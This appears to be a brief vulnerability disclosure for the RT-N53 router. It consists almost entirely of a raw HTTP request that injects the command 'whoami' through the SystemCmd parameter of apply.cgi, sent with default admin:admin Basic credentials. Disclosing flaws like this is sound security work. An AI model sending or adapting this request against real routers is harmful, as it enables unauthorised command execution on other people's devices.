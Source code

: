 # PoC

There is a command injection vulnerability in the SystemCmd parameter of the apply.cgi interface in RT-N53

#### http://ip/apply.cgi

```


RT-N53 (Version 3.0.0.4.376.3754)

GET /apply.cgi?current_page=Main_WOL_Content.asp&next_page=Main_WOL_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=EN&SystemCmd=ether-wake+-i+br0+whoami&firmver=3.0.0.4&destIP=ccccc&wollist_deviceName=&wollist_macAddr= HTTP/1.1 
Host: 192.168.1.1 
Authorization: Basic YWRtaW46YWRtaW4= 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9 
Referer: http://192.168.1.1/Main_WOL_Content.asp 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Cookie: clock_type=1; hwaddr=52:54:00:12:34:57; bw_24refresh=1; ymd=2; bw_rtab=WIRELESS1 
Connection: close
```


#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao
